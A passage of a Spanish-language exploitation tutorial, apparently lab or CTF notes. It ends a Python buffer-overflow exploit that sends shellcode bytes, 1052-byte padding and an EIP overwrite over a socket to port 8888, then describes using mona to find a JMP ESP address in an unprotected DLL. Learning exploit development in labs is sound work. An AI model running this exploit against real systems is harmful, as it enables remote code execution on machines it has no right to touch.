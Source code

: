 ```python
        b"\x90\x67\xda\x86\xab\x9c\x57\x29\x7b\x15\x23\x0e\x5f\x7d\xf7"
        b"\x2f\xc6\xdb\x56\x4f\x18\x84\x07\xf5\x53\x29\x53\x84\x3e\x26"
        b"\x90\xa5\xc0\xb6\xbe\xbe\xb3\x84\x61\x15\x5b\xa5\xea\xb3\x9c"
        b"\xca\xc0\x04\x32\x35\xeb\x74\x1b\xf2\xbf\x24\x33\xd3\xbf\xae"
        b"\xc3\xdc\x15\x60\x93\x72\xc6\xc1\x43\x33\xb6\xa9\x89\xbc\xe9"
        b"\xca\xb2\x16\x82\x61\x49\xf1\x6d\xdd\x51\x11\x06\x1c\x51\x10"
        b"\x6d\xa9\xb7\x78\x81\xfc\x60\x15\x38\xa5\xfa\x84\xc5\x73\x87"
        b"\x87\x4e\x70\x78\x49\xa7\xfd\x6a\x3e\x47\x48\xd0\xe9\x58\x66"
        b"\x7c\x75\xca\xed\x7c\xf0\xf7\xb9\x2b\x55\xc9\xb3\xb9\x4b\x70"
        b"\x6a\xdf\x91\xe4\x55\x5b\x4e\xd5\x58\x62\x03\x61\x7f\x74\xdd"
        b"\x6a\x3b\x20\xb1\x3c\x95\x9e\x77\x97\x57\x48\x2e\x44\x3e\x1c"
        b"\xb7\xa6\x81\x5a\xb8\xe2\x77\x82\x09\x5b\xce\xbd\xa6\x0b\xc6"
        b"\xc6\xda\xab\x29\x1d\x5f\xdb\x63\x3f\xf6\x74\x2a\xaa\x4a\x19"
        b"\xcd\x01\x88\x24\x4e\xa3\x71\xd3\x4e\xc6\x74\x9f\xc8\x3b\x05"
        b"\xb0\xbc\x3b\xba\xb1\x94")
    offset = 1052
    before_eip = b"A" * offset
    eip = b"B" * 4

    payload = before_eip + eip + shellcode

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```

#### Etapa 6: Asignar el opcode al EIP {-}

```{r, echo = FALSE, fig.cap="Buf opcode", out.width="90%"}
    knitr::include_graphics("images/Buff-jmpesp.png")
```

Como dicho precedamente, no podemos meter la direccion del **ESP** directamente en el **EIP** para ejecutar el Shell code.
Aqui lo que tenemos que hacer es encontrar una direccion donde se ejecute el commando **JMPESP** para redirigirnos al Shell code.

1. Busqueda de modulos con mona

    ```bash
    !mona modules
    ```

1. Buscamos una dll que tenga todas las protecciones a False

    ```{r, echo = FALSE, fig.cap="Buf no protected modules", out.width="90%"}
    knitr::include_graphics("images/Buff-protection_false.png")
    ```

1. En internet buscamos el opcode [defuse.ca](https://defuse.ca/online-x86-assembler.htm)

    ```{r, echo = FALSE, fig.cap="Buf no protected modules", out.width="90%"}
    knitr::include_graphics("images/Buff-protection_false.png")
    ```
